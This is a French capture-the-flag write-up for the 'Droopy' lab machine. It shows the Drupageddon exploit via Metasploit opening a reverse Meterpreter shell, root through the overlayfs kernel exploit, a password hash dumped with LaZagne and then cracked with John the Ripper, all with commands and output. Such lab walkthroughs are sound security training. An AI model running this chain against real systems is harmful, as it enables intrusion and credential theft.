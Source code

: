 # DroopyCTF

1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.196
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.196...100%
[+] Scan Nmap 192.168.56.196...100%
 
[+] 80/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/m0rph3u5/Massap/192.168.56.196-tcp.html     |
==========================================================
```

&nbsp;

**<span style="color: #dddddd;">📑</span>Rapport Nmap**

![Capture du 2025-04-16 13-19-43](https://github.com/user-attachments/assets/8afe7517-8e8c-48fb-b43d-000d0371ffc5)

&nbsp;

<span style="color: #dddddd;">💥</span> **Metasploit - drupal_drupageddon** 

Exploitation de la `CVE` trouver par `nmap` ( cve-2014-3704)

```
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> set lhost 192.168.56.149
lhost => 192.168.56.149
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> set rhosts 192.168.56.196
rhosts => 192.168.56.196
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> run
[*] Started reverse TCP handler on 192.168.56.149:4444 
[*] Sending stage (40004 bytes) to 192.168.56.196
[*] Meterpreter session 1 opened (192.168.56.149:4444 -> 192.168.56.196:55448) at 2025-04-16 19:05:25 +0200

(Meterpreter 1)(/var/www/html) >
```

&nbsp;

**<span style="color: #dddddd;">🤖</span> LinPeas**

Élévation de privilege avec linpeas

```
www-data@droopy:/tmp$ sh linpeas.sh

╔══════════╣ Executing Linux Exploit Suggester
╚ 
[+] [CVE-2015-1328] overlayfs

   Details: http://seclists.org/oss-sec/2015/q2/717
   Exposure: highly probable
   Tags: [ ubuntu=(12.04|14.04){kernel:3.13.0-(2|3|4|5)*-generic} ],ubuntu=(14.10|15.04){kernel:3.(13|16).0-*-generic}
   Download URL: https://www.exploit-db.com/download/37292

```

&nbsp;

&nbsp;

**<span style="color: #dddddd;">💀</span> Exploit Overlays**

Test de l'exploit trouver precedement

```
www-data@droopy:/tmp$ gcc overlays.c   
gcc overlays.c
www-data@droopy:/tmp$ ./a.out
./a.out
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# bash -i
root@droopy:/tmp#
```

&nbsp;

<span style="color: #dddddd;">👾</span> **LaZagne**

Cherchons des mot de passe sur la machine

```
root@droopy:/tmp/LaZagne-2.4.6/Linux# python laZagne.py all
python laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Password found !!!
Login: gsuser
Password: gsuser

[+] Hash found !!!
Login: root
Hash: $6$fSUKb/ov$EFE6LjrVpz2yJrd2QSQEe/mGQ.8q3xXi9s5CJL95ngeh95PS91e10XLav4gRE1z4jv1Wmb6WH24yVQA6GKwEl/:16415:0:99999:7:::


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 1.15886497498
```

&nbsp;

**<span style="color: #dddddd;">🧨</span> JohnTheRipper**

Crack du mot de passe `root`

```
┌─[m0rph3u5@parrot]─[~]
└──╼ $john droop 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
toor             (root)     
1g 0:00:00:00 DONE 1/3 (2025-04-16 19:30) 16.66g/s 166.6p/s 166.6c/s 166.6C/s rootroot..RootRoot
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

&nbsp;

Identifiant trouver

| Users | Passwords |
| --- | --- |
| root | toor |
| gsuser | gsuser |

